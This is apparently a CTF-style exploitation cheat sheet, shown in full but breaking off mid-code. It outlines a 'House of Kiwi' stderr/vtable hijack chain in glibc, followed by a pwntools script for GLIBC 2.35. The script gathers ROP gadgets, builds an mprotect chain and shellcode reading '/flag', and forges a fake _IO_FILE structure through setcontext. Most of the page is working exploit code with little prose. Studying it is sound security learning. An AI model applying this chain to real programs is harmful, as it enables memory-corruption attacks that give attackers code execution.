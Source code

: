 
### HIJACK | stderr

Idea provided by **House of Kiwi**.

**Attack Chain**:

```
__malloc_assert
	fflush(stderr)
			_IO_file_sync
```

- `stderr->vtable`: `_IO_file_jumps`.
- `rdx`: `IO_helper_jumps`.
- `_IO_file_sync`: at offset **0x60** in the table.
- Before calling `__IO_file_sync`, `__vfprintf_internal` will also call `_IO_new_file_xsputn` (+0x38) from the vtable.





#### GG | setcontext

**Version**: GLIBC 2.35

```py
# Gadgets
_IO_list_all    = libc_base + libc.sym['_IO_list_all']
_IO_wfile_jumps = libc_base + libc.sym['_IO_wfile_jumps']
_IO_2_1_stdout_ = libc_base + libc.sym['_IO_2_1_stdout_']
stdout		    = libc_base + libc.sym['stdout']
environ			= libc_base + libc.sym['_environ']
setcontext      = libc_base + libc.sym['setcontext'] + 61
mprotect        = libc_base + libc.sym['mprotect']
rop 	        = ROP(libc)
p_rdi_r         = libc_base + rop.find_gadget(['pop rdi', 'ret'])[0]
p_rsi_r         = libc_base + rop.find_gadget(['pop rsi', 'ret'])[0]
p_rdx_rbx_r     = libc_base + rop.find_gadget(['pop rdx', 'pop rbx', 'ret'])[0]
leave_r	        = libc_base + rop.find_gadget(['leave', 'ret'])[0]
ret             = libc_base + rop.find_gadget(['ret'])[0]
add_rsp_0x28_r  = libc_base + 0x0000000000045f25
add_rsp_0xa8_r  = libc_base + 0x00000000000434a7
pa(_IO_list_all)
pa(_IO_wfile_jumps)
pa(stdout)
pa(environ)
pa(setcontext)

fakeIO_addr    = 0xdeadbeef
mprotect_chain = [p_rdi_r, fakeIO_addr&(~0xfff), p_rsi_r, 0x4000, \
                  p_rdx_rbx_r, 7, 0, mprotect, fakeIO_addr+0x140]	# 0x48 bytes
orw_chain      = asm(shellcraft.cat('/flag'))	# 0x23 bytes
pa(fakeIO_addr)

pl = flat({
    # fake_IO  
    0: {  
        0x0:  0,	# _flag
        0x88: environ-0x10, 		# _lock
        0xa0: fakeIO_addr+0x100,    # _wide_data=rdx 
        0xd8: _IO_wfile_jumps+0x10, # vtable (_IO_wfile_seekoff)
    },
    # fake_IO->_wide_data
    0x100: { 
        0x18: 0,    # _IO_write_base
        0x20: 1,    # _IO_write_ptr 
```